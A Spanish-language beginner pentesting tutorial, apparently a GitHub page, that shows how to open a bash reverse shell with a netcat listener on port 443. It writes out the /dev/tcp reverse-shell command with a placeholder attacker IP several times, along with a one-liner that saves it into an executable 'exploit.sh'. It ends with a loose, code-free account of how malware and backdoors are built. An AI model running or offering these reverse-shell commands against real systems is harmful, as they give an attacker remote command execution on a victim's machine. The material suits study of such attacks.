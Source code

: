```yaml
---
title: Pentesting
published: true
---
```



<h2> TE AMO LU ME AMAS?</h2>

**Hola** hoy estaermos hablando de pentesting web, hablaremos sobre:
* **Creacion de ReverseShell comandos.**
* **Como estan compuestos los payloads exploits malware para windows.**
<br>

Vale primero que es una **ReverseShell**, lo explicara en un lenguaje brusco, una ReverShell es aquella que te permite
ejecutar comandos en una pc que no es tu dominio, es decir una ip el cual es la de la victima conectada a un hosts,
donde el hosts es tu equipo y te permite ejecucion remota de comandos.

[Puedes encontrar mas informacion aqui](https://www.google.com/search?q=ReverseShell&client=firefox-b-d&sxsrf=ALiCzsbKFcBidTADzj_JE7x-ksfIvwVUpA%3A1658946186694&ei=ioLhYpz9KeezqtsPnd-L8A0&ved=0ahUKEwic6qKR2Jn5AhXnmWoFHZ3vAt4Q4dUDCA0&uact=5&oq=ReverseShell&gs_lcp=Cgdnd3Mtd2l6EAMyBwgjELECECcyBwgjELECECcyBwgjELECECcyBAgAEEMyBAgAEEMyBAgAEEMyBAgAEEMyBAgAEEMyBAgAEEMyBAgAEEM6BwgAEEcQsAM6BAguECc6BAgjECc6CwgAEIAEELEDEIMBOgcIIxDqAhAnOggIABCxAxCDAToFCAAQgAQ6BAgAEAM6BggjECcQEzoKCAAQsQMQgwEQQzoKCC4QsQMQgwEQQzoGCAAQChBDOggIABCABBCxAzoICC4QgAQQsQM6BwgAEIAEEAo6BwgAEAoQywE6BQgAEMsBSgQIQRgASgQIRhgAUM4EWPkxYJkzaAhwAXgBgAHzAYgBrBqSAQYwLjE0LjSYAQCgAQGwAQrIAQjAAQE&sclient=gws-wiz).

-------
<br>

<h3><font color="lime">[*]</font> Empezaremos con las pruebas de ReverseShell:</h3>
los programas a utilizar para la ReverseShell es bash, netcat, si usas linux es probable que ya los tengas instalados, 
en el caso contrario ejecuta:
<br>

para linux:

 `sudo apt-get install netcat bash`

para arch-linux:

`pacman -Sy netcat bash`

<br>
<br>

<h3>IMPORTANTE</h3> <ph><font color="green">[*]</font> Para estas bruebas si lo vas a hacer desde terminal, tienes que utilizar bash y no zsh por que te dara
errores, claro si quieres puedes probar de zsh y conocer los errores pero si quieres omitir esto, entonces solo ejecutas
el siguiente comando:</ph>

`bash`


<img src="screenshots/screen_bash.jpg">

<ph><font color="lime">[↑]</font> Como puede ver ya no estoy en la zsh entonces vamos a operar desde la terminal y luego operaremos de un script mailicioso.</ph>
<br>

---
<br>
<ph><font color="lime">[*]</font> Empezamos poniendonos en escucha por el puerto 443 de netcat : </ph>

`nc -nvlp 443`

<ph><font color="lime">[*]</font> Miramos que ip tenemos con el comando ifconfig :</ph>

`ifconfig`

<img src="screenshots/ifconfig.jpg">

<ph><font color="lime">[↑]</font> Como pueden ver tengo la ip 127.0.0.1</ph>
<br>
<ph><font color="lime">[*]</font> Ahora estando en escucha con netcat "nc -nlvp 443" en el puerto 443, vamos a entablarnos la coneccion desde otra
terminal por que la primera esta siendo ocupada por netcat entonces recuerden ejecutar el comando `bash` antes de entablar
la coneccion.</ph>

<br>

<ph><font color="lime">[*]</font> Para entablar la coneccion hacemos el siguiente comando :</ph>
<br>

`bash  	   # IMPORTANTE ES LA TERMINAL BASH NO LA ZSH`

`bash -i >& /dev/tcp/TU-IP/443/ 0>&1`


<img src='screenshots/reverse.jpg'>

<ph><font color="lime">[↑]</font> Como pueden ver se me abrio un <b>ReverseShell</b> en la parte donde estaba en escucha con netcat.</ph>

-------
<br>

<ph><font color="lime">[*]</font> Ahora pasaremos a desarrollar un **script malicioso en bash**, para ello aremos los mismo solo que esta ves el comando : 
`bash -i >& /dev/tcp/127.0.0.1/443 0>&1` ira dentro de un script sh para ello:</ph>

<br>

```
touch exploit.sh && echo -e "bash -i &>/dev/tcp/$(cat /etc/hosts  | grep localhost | awk "NR==1" | cut -d " " -f "1-1")/443 0>&1" >> exploit.sh && chmod +x ./exploit.sh
```

<br>

<ph><font color="lime">[*]</font> Lo que desarrolle con ese comando fue hacer un script en bash para poder entablarme una coneccion pueden hacer `ls` y veran un
archivo llamado **exploit.sh** y de paso otorgarle permiso de ejecucion.</ph>

No se ofusque si no entiende la anterior  linea de codigo simplemente lo que hace es hacer un archivo con `touch` darle permisos
con de ejecucion `chmod +x exploit.sh` y meterle adentro con `>>` el codigo :

```#!/bin/bash
   bash -i >& /dev/tcp/127.0.0.1 0>&1
```
<br>
<ph><font color="lime">[*]</font> Pueden hacerlo manualmente con los siquientes comandos :</ph>

`touch exploit.sh`
`chmod +x exploit.sh`
Abren el archivo creado y colocan la `bash -i >& /dev/tcp/SU-IP/443 0>&1`

<br>

<ph><font color="lime">[*]</font> Una vez ya echo el archivo, pongace en escucha por el puerto 443 con netcat. Recuerde
que con el comando <b>nc -nlvp 443</b> nos poniamos en escucha por el puerto 443 este puerto puede ser modificado siempre
y cuando el puerto no este en uso y claramente en el exploit o codigo ponga su respectivo puerto.ﾠ</ph>

ﾠ
<ph><font color="lime">[*]</font> Nos ponemos en escucha con netcat</ph>
`nc -nlvp 443`

<ph><font color="lime">[*]</font> Y ejecutamos el archivo creado</ph>
`./exploit.sh`

<img src="screenshots/final.jpg">

<ph><font color="lime">[*]</font><b> Ahora como puden ver tengo una reverse shell</b></ph>

<br>

<ph><font color="lime">[*]</font> Lo mas comodo de hacerlo por script es que se puden ejecutar el archivo teniendo la zsh y ahorrandose el comando `bash` y
ejecutar el archivo este se debe a la extension "sh" que tiene el archivo.</ph>
<br>
<ph>Vale ya sabes al menos cosas basicas de como entablarte un reverse shell luego voy a hacer que entiendas como
ganar acceso a un sistema.<b>http,https.</b></ph>


---

<h3>Como estan desarollados los backdoor, exploits, payloads y malware?</h3>
<ph>Te lo voy a explicar en un lenguaje brusco es decir a mi manera para que puedas entenderlo mas facil.<ph>
<ph>Un archivo malicioso ya puede ser malware exploit backdoor (Puerta tracera) payloads, no son mas que archivos en
binario que si recuerdas es lenguaje de la computadora que usa para poder operar. estos archivos puden ser
tambien escritos en hexadecimal para poder luego con un compilador pasarlo a binario.
para esto existen compiladores que te ayudan a crear este tipo de archivo el ultimo
exe que hice fue un archivo escrito en <b>C</b> ganabas acceso al sistema con solo abrirlo, pero este no es el caso de hablar de esto.
si quieres aprender a desarrollar un .exe debes aprender lenguaje c y con ayuda de una herramienta poder compilarlos
yo utilizaba code block, asi y poder luego crearte archivos .exe a tu favor.</ph>

